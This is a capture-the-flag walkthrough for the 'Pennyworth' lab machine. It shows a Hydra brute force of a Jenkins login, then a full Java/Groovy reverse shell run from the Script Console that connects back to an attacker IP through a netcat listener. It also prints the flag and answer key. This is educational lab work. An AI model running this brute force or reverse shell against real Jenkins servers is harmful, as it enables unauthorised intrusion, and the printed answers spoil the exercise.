









### Pennyworth

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br><br>
**Tags:** Common Applications, Jenkins, Java, Reconnaissance, Remote Code Execution, Default Credentials<br>


---

#### Task 1
**What does the acronym CVE stand for?**
> Common Vulnerabilities and Exposures


---

#### Task 2
**What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?**
> confidentiality, integrity, availability


---

#### Task 3
**What is the version of the service running on port 8080?**
> Jetty 9.4.39.v20210325




---

#### Task 4
**What version of Jenkins is running on the target?**
> 2.289.1

First we use BurpSuite to intercept an HTTP Request when we try to login. First we go to the proxy tab in BurpSuite. We make sure `intercept off` and we go to the target website `http://{Target IP}:8080`. Then in BurpSuite we turn `intercept on` and try to login with the arbitrary credentials `user` and `pass`:



Next we go to BurpSuite and see our intercepted packet. We see that the intercepted packet was a HTTP POST Request to `/j_spring_security_check `. We notice that the request has a cookie and four query parameters `j_username`, `j_password`, `form`, and `Submit`. We also notice that the value of `j_username` and `j_password` are the credentials were submitted to the fom.



Next we use the `Forward` button in BurpSuite to send the intercepted packet to the target website. We don't have valid login credentials and see that BurpSuite intercepted a HTTP GET Request with the url endpoint `\loginError`:



Next we download the [common username list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt) and save it as `usernames.txt`. We also download the [common password list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt) and save it as `passwords.txt`. We use hydra to brute force a username and password credential pair:

```bash
hydra -L {USERNAMES} -P {PASSWORDS} -F {TARGET IP} -s {TARGET PORT} http-post-form "{URL ENDPOINT}:{QUERY PARAMTERS}:C={COOKIE}:F={FAILURE STRING}"
```

For the `{USERNAMES}` and `{PASSWORDS}` flags, we give hydra the path to the common username and password lists we downloaded earlier: `usernames.txt` and `passwords.txt`. We also set target website: `-F {TARGET IP} -s 8080`. Next we specify that we want to make an `http-post-form` to brute force the login credentials. For our post request, we set the `{URL ENDPOINT}` to the one we got from BurpSuite: `/j_spring_security_check`. For the query parameters, we set `{j_username}` and `{j_password}` too `^USER^` and `^PASS^`. We reuse the same values for `{from}` and `{Submit}` as the HTTP Request we intercepted in BurpSuite. We set the `{COOKIE}` value to use the same cookie as the `/login` page. Lastly we set the `{FAILURE STRING}` to `loginError` since that's what the HTTP Response BurpSuite intercepted.



Hydra finds that the credential pair `root` and `password` are valid. Lastly, logging in with this credential pair, we get the Jenkins administrative panel and see the version of Jenkins that is running.




---

#### Task 5
**What type of script is accepted as input on the Jenkins Script Console?**
> Groovy


---

#### Task 6
**What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?**
> cmd.exe


---

#### Task 7
**What is a different command than "ip a" we could use to display our network interfaces' information on Linux?**
> ifconfig




---

#### Task 8
**What switch should we use with netcat for it to use UDP transport mode?**
> -u


---

#### Task 9
**What is the term used to describe making a target host initiate a connection back to the attacker host?**
> reverse shell

First we setup a listener on port `8000` our own computer using the `netcat` command:

```bash
nc -lvnp {TARGET IP} 8000
```

Since the Jenkins terminal accepts Java code, we can make a reverse shell in Java and run it on the script console. We click on the `Manage Jenkins` button on the left side panel. Then we scroll down to the tools and actions section and click on `Script Console`.

For our reverse shell, we make a process `p` that our main function can use to make exec calls. We start a bash shell by passing the command `/bin/bash` to our `ProcessBuilder()` function. 

```java
String cmd ="/bin/bash";
Process p = new ProcessBuilder(cmd).start();
```

Then we make a socket that allows us to connect to our own computer:
```java
String host = "10.10.15.124";
int port = 8000;
Socket s = new Socket(host,port);
```

Next we need to redirect the input and output streams. The `po` variable allows the java main function to send commands to the process `p`. The `si` variable allows the java main function to read the commands that we send on our computer via netcat. The `pi` variable allows the java main function to read the output of the process `p`. The `so` variable allows the java main function to send our computer the output:

```java
InputStream pi = p.getInputStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so=s.getOutputStream();
```

Next we need to make a `while` loop allowing our script to run continuously. Then we see if there is user input `si`. If there is user input, we send this user input to our process `po` to be executed. Next we see if there's output from our process `pi`, we send this output to our computer `so`.

```bash
while (!s.isClosed()) {

	try {
		
		if (si.available() > 0) {
		
			po.write(si.read());

		}

		if (pi.available() > 0) {
		
			so.write(pi.read()); 
		
		}

		so.flush();
		po.flush();
		Thread.sleep(50);

	} catch (IOException i) {

		break;

	}

}
```

After we use the `Script Console` to run our reverse shell java code, we can go to our netcat listener and interact with the shell:




---

#### Flag
> 9cdfb439c7876e703e307864c9167a15

Lastly we search for the flag file and then display its contents:



---